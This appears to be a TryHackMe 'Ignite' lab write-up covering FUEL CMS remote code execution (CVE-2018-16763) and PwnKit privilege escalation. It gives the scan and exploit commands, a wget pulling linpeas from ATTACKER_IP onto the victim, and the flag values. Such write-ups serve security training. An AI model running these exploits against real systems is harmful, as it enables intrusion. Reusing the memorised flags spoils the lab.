 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/ignite/","tags":["CTF","write-up","LFI","RCE","SUID"]}
---
```


![Pasted image 20240920115253.png|200](/img/user/attachments/Pasted%20image%2020240920115253.png)
Root the box! Designed and created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471), built by [Paradox](https://tryhackme.com/p/Paradox).

---
# Active reconnaisance
## Enum ports and services
Run an full scan
```shell
sudo nmap 10.10.140.16 -p- -n --min-rate 5000 -sS --open -vvv
```

```c
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 61
```
## OS
Based in the ttl `61`, could be a linux machine
system Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 16.04.6 LTS

---
# Vuln analisis
## Port 80
```c
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```
![Pasted image 20240920121719.png|400](/img/user/attachments/Pasted%20image%2020240920121719.png)
From the robots file and the webpage we know that the subdirectory `fuel` exists
### fuel
![Pasted image 20240920122454.png|400](/img/user/attachments/Pasted%20image%2020240920122454.png)
Login with the credentials from the main page
![Pasted image 20240920125300.png|300](/img/user/attachments/Pasted%20image%2020240920125300.png)
We are in the admin dashboard
![Pasted image 20240920125339.png|400](/img/user/attachments/Pasted%20image%2020240920125339.png)
Anyway I'll try to find doing fuzzing
```shell
wfuzz -c -t 100 --hc=404,403 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.140.16/FUZZ
```
### assets
We found `assets` and it's forbidden

---
# Exploitation
## CVE-2018-16763
Looking for Fuel 1.4.1 on `searchsploit` we found a [[RCE\|RCE]] vulnerability associated to the CVE-2018-16763
![Pasted image 20240921084919.png](/img/user/attachments/Pasted%20image%2020240921084919.png)
![Pasted image 20240921084949.png|500](/img/user/attachments/Pasted%20image%2020240921084949.png)
NIST show more information
![Pasted image 20240921085153.png|600](/img/user/attachments/Pasted%20image%2020240921085153.png)
Using the exploit we have a shell
```shell
python 50477.py -u http://10.10.209.122
```
![Pasted image 20240921091135.png|400](/img/user/attachments/Pasted%20image%2020240921091135.png)

Get the first flag
![Pasted image 20240921114219.png|400](/img/user/attachments/Pasted%20image%2020240921114219.png)
> [!check]- flag.txt
> 6470e394cbf6dab6a91682cc8585059b

---
# Privilege Escalation
Enumerating 
systemLinux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
Ubuntu 16.04.6 LTS
## Runing linpeas on the system
1. On the attacker machine get the file
```shell
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
2. Start a python server
   `python3 -m http.server 4747`
3. On the victim machine get the file and make it executable
```shell
wget http://ATTACKER_IP:4747/linpeas.sh
chmod +x linpeas.sh
```
4. Run it and save it in a txt file
```shelll
./linpeas.sh > linpeas_scan.txt
```
## CVE-2021-4034
From LinPeas we have  this suggestion
```
Executing Linux Exploit Suggester
https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit
   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have pkexec installed and as SUID
![Pasted image 20240923172901.png|600](/img/user/attachments/Pasted%20image%2020240923172901.png)

The exploit from `LinPeas` doesn't work, but searching another option I found this exploit written in `python`
https://github.com/Almorabea/pkexec-exploit
After getting to the victim machine, the exploit works.
![Pasted image 20240923172233.png|500](/img/user/attachments/Pasted%20image%2020240923172233.png)
![Pasted image 20240923172249.png|80](/img/user/attachments/Pasted%20image%2020240923172249.png)
And finally capture the root flag.
![Pasted image 20240923172354.png|400](/img/user/attachments/Pasted%20image%2020240923172354.png)
> [!check]- root.txt
> b9bbcb33e11b80be759c4e844862482d

---